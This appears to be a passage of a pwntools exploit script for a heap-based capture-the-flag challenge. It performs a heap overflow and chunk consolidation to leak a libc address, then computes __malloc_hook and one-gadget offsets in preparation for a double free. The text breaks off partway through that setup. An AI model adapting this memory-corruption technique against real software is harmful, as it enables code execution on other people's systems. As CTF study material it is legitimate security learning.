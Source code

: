 ```
	target.sendline(str(index))
	target.recvuntil(">>")
	target.sendline(str(size))
	target.recvuntil(">>")
	target.send(content)

def showZealot(index):
	target.recvuntil(">>")
	target.sendline('4')
	target.recvuntil(">>")
	target.sendline(str(index))

#This function is specifically designed to print and filter out the infoleak
def infoLeak():
	target.recvuntil(">>")
	target.sendline('4')
	target.sendline('4')
	target.recvuntil('[*]SHOWING....')
	leak = target.recv(8)
	leak = leak.replace("\x0a", "")
	leak = u64(leak + "\x00")
	system = leak - 0x37f7e8 
	libcadr = system - libc.symbols['system']
	log.info("leak is: " + hex(leak))
	log.info("System is: " + hex(system))
	log.info("Libc is: " + hex(libcadr))
	return libcadr

# First make the first four chunks of memory
makeZealot(240, "0"*(240)) # Chunk 0
makeZealot(112, "1"*(112)) # Chunk 1
makeZealot(240, "2"*(240)) # Chunk 2
makeZealot(48, "3"*(48)) # Chunk 3

# Free the first two chunks for heap consolidation
destroyZealot(0) # Chunk 0 freed
destroyZealot(1) # Chunk 1 freed

# Make chunk 5, which we will use to overflow chunk 2
makeZealot(120, "4"*(120)) # Chunk 4

# Execute the heap overflow
fixZealot(1, 128, '5'*0x70 + p64(0x180) + p64(0x100))

# Free the second heap chunk to cause heap consolidation
destroyZealot(2) # Chunk 2 now freed

# Allocate another heap space, to prepare for the infoleak
makeZealot(240, "6"*(240)) # Chunk 5

# Print the infoleak, and filter it out, and calculate the address of our fake chunk
libcadr = infoLeak()
mallocHook = libcadr + libc.symbols['__malloc_hook']
oneshot = libcadr + 0xf1117
log.info("Malloc Hook: " + hex(mallocHook))
log.info("One Shot: " + hex(oneshot))
fakeChunk = 0x605310 - 0x23

# Free chunk 5 to make room for next step
destroyZealot(5) # Chunk 5 now freed

# Allocate four more chunks to prepare for the double free
makeZealot(16, "7"*16)# Chunk 6
```